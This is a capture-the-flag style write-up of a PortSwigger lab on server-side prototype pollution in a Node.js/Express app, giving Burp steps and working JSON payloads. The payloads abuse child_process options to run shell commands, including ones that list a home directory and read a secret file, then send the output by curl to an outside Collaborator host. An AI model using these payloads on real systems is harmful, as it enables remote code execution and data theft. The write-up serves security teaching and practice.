 # Exfiltrating sensitive data via server-side prototype pollution

[This lab](https://portswigger.net/web-security/prototype-pollution/server-side/lab-exfiltrating-sensitive-data-via-server-side-prototype-pollution) is built on `Node.js` and the `Express` framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that it is possible to inject arbitrary system commands that are executed on the server.

## Reproduction and PoCs

### Study the address change feature

1. Log in with `wiener:peter` and visit the account page. Submit the form for updating your billing and delivery address.
2. In Burp, go to the **Proxy -> HTTP history** tab and find the `POST /my-account/change-address` request.
3. When submitting the form, the data from the fields is sent to the server as JSON. The server responds with a JSON object that appears to represent your user. This has been updated to reflect the new address information.
4. Send the request to Burp Repeater.

### Identify a prototype pollution source

1. In Repeater, add a new property to the JSON with the name `__proto__`, containing an object with a json spaces property.

```text
"__proto__": {
    "json spaces":10
}
```

2. Send the request.
3. In the Response panel, switch to the Raw tab. Notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype.

### Probe for remote code execution

1. Go to the admin panel and observe that there's a button for running maintenance jobs.
2. Click the button and observe that this triggers background tasks that cleanup the database and filesystem. This is a classic example of the kind of functionality that may spawn node child processes.
3. Try polluting the prototype with a set of malicious properties that control the options passed to the `child_process.execSync()` method. The injected command should trigger an interaction with the public Burp Collaborator server:

```text
"__proto__": {
    "shell":"vim",
    "input":":! curl https://uywkxrh5o7yl6c9iauwoewp6xx3orff4.oastify.com\n"
}
```

4. Send the request.

![Prototype pollution](../../_static/images/pp25.png)

5. In the browser, go to the admin panel and trigger the maintenance jobs. After a short delay, these fail to run.
6. In Burp, go to the Collaborator tab and poll for interactions. Observe that you have received several interactions. This confirms the remote code execution.

![Prototype pollution](../../_static/images/pp26.png)

### Leak the hidden file name

1. In Burp Repeater, modify the payload in your malicious input parameter to a command that leaks the contents of Carlos's home directory to the public Burp Collaborator server. The following is one approach for doing this:

```text
```text
"__proto__": {
    "shell":"vim",
    "input":":! ls /home/carlos | base64 | curl -d @- https://uywkxrh5o7yl6c9iauwoewp6xx3orff4.oastify.com\n"
}
```
    
2. Send the request.

![Prototype pollution](../../_static/images/pp27.png)

3. In the browser, go to the admin panel and trigger the maintenance jobs again.
4. Go to the Collaborator tab and poll for interactions.
5. Notice that you have received a new HTTP POST request with a Base64-encoded body.
6. Decode the contents of the body to reveal the names of two entries: `node_apps` and `secret`.

![Prototype pollution](../../_static/images/pp28.png)

### Exfiltrate the contents of the secret file

1. In Burp Repeater, modify the payload in your malicious input parameter to a command that exfiltrates the contents of the file `/home/carlos/secret` to the public Burp Collaborator server. The following is one approach for doing this:

```text
"input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
```

2. Send the request.
3. In the browser, go to the admin panel and trigger the maintenance jobs again.
4. Go to the Collaborator tab and poll for interactions.
5. Notice that you have received a new HTTP POST request with a Base64-encoded body.
6. Decode the contents of the body to reveal the secret.

![Prototype pollution](../../_static/images/pp29.png)

7. In browser, go to the lab banner and click **Submit solution**. Enter the decoded secret to solve the lab.

![Prototype pollution](../../_static/images/pp30.png)

## Exploitability

To solve the lab:

An attacker will need to already have escalated privileges, giving access to admin functionality; find a prototype pollution source that can be used to add arbitrary properties to the global `Object.prototype`; identify a gadget that can be used to inject and execute arbitrary system commands; trigger remote execution of a command that leaks the contents of Carlos's home directory (`/home/carlos`) to the public Burp Collaborator server; exfiltrate the contents of a secret file in this directory to the public Burp Collaborator server; and submit the secret obtained from the file using the button provided in the lab banner. 
